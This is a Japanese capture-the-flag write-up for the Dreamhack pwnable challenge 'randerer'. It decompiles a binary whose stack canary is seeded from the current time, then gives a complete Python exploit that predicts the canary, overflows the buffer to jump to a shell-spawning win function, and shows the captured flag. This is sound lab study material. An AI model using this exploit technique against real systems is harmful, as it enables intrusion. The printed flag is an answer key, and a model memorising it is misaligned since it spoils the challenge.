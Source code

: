 # randerer:pwnable:404pts
rand() canary!  

[Download challenge](7df7de09-3c5f-4b0d-9878-ff506677a629.zip)  

Servers  
Host: host3.dreamhack.games  
Port: 23200/tcp → 8080/tcp  

# Solution
実行ファイル一式と接続先が渡される。  
まずはIDAでデコンパイルする。  
`main`は以下のようであった。  
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  time_t v3; // rax
  char buf[16]; // [rsp+0h] [rbp-20h] BYREF
  __int64 v6; // [rsp+10h] [rbp-10h]

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  v6 = canary;
  v3 = time(0LL);
  printf("time: %ld\n", v3);
  printf("input your data: ");
  read(0, buf, 0x100uLL);
  if ( v6 != canary )
  {
    puts("*** stack smashing detected ***: terminated Aborted");
    exit(1);
  }
  return 0;
}
```
なぜか時間を出力してから、ユーザ入力を受け付けている。  
ユーザ入力には自明なBOFがありそうだ。  
セキュリティ機構として、canaryを独自に生成したSSPを実装している。  
canaryを生成する`init_canary`は以下のようであった。  
```c
void init_canary()
{
  unsigned int v0; // eax
  __int64 v1; // rbx
  int i; // [rsp+Ch] [rbp-14h]

  v0 = time(0LL);
  srand(v0);
  for ( i = 0; i <= 7; ++i )
  {
    v1 = canary << 8;
    canary = v1 | (unsigned __int8)rand();
  }
}
```
時間をシードにしているため予測可能だとわかる。  
ありがたいことに`win`もあるようだ。  
```c
int win()
{
  return system("/bin/sh");
}
```
つまりこの問題はcanaryを予測して破壊することなく、`win`に飛ばせということだろう。  
libcの関数をそのまま叩いてやればよい。  
以下のexploit.pyで行う。  
```py
import ctypes
from ptrlib import *

elf = ELF("./prob")

# sock = Process("./prob")
sock = Socket("nc host3.dreamhack.games 23200")
# sock.debug = True

v0 = int(sock.recvlineafter("time: "))
logger.info(f"time = {v0}")

libc = ctypes.CDLL("libc.so.6")
libc.srand(ctypes.c_uint(v0))
canary = 0
for i in range(8):
    v1 = canary << 8
    rand_value = libc.rand() & 0xFF
    canary = v1 | rand_value
logger.info(f"canary = {hex(canary)}")

payload = b"A" * 0x10
payload += p64(canary)
payload += p64(0x0)
payload += p64(0x0)
payload += p64(next(elf.gadget("ret;")))
payload += p64(elf.symbol("win"))
sock.sendlineafter("input your data: ", payload)

sock.sh()
```
実行する。  
```bash
$ python exploit.py
[+] __init__: Successfully connected to host3.dreamhack.games:23200
[+] <module>: time = 1727503260
[+] <module>: canary = 0x415827b1bb53f92d
[ptrlib]$ ls
flag
prob
[ptrlib]$ cat flag
DH{995277f7:kBV0lnXflUSSdiRl8izGQw==}
```
flagが読み取れた。  

## DH{995277f7:kBV0lnXflUSSdiRl8izGQw==}